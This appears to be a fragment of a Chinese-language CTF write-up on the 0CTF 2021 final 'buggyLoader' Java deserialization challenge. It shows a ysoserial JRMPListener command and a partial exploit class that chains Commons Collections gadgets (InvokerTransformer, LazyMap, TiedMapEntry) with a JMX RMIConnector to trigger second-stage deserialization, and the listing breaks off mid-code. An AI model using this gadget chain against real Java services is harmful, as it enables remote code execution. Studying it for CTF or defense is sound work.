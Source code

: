 jrmp 并以为可以打，才发现环境不出网，并且jdk的版本可能会导致不行？？？。。。

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections6 'calc'
```

#### 二次反序列化

这里我就直接给exp，exp是 https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2021-final/buggyLoader/writeup 师傅太猛了。。。

自己并没有做出来，是后面分析出的。。

该exp的核心 一是使用了cc11链，而且使用了jmx去进行二次反序列化。http://mx4j.sourceforge.net/docs/ch03s15.html

通过jmx去封装，去触发二次反序列化。

exp

```java
package com.tctffinal.demo.exp2;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Exp {
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);

        //创建InvokerTransformer类 sink
        InvokerTransformer transformer = new InvokerTransformer("connect", null, null);

        //JMXServiceURL jurl = new JMXServiceURL("service:jmx:rmi:///stub/" + Temp.getExp());//jmx协议
        //Map hashMapp = new HashMap();
        //RMIConnector rc = new RMIConnector(jurl,hashMapp);

        String finalExp = "service:jmx:rmi:///stub/" + Temp.getExp();//jmx协议
        RMIConnector rmiConnector = new RMIConnector(new JMXServiceURL(finalExp), new HashMap<>());//jmx连接


        Map hashMap = new HashMap();
        Map lazyMap = LazyMap.decorate(hashMap, transformer);//实例化lazymap
        //
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        //通过hashset去触发。
        HashSet hashset = new HashSet(1);
        hashset.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
```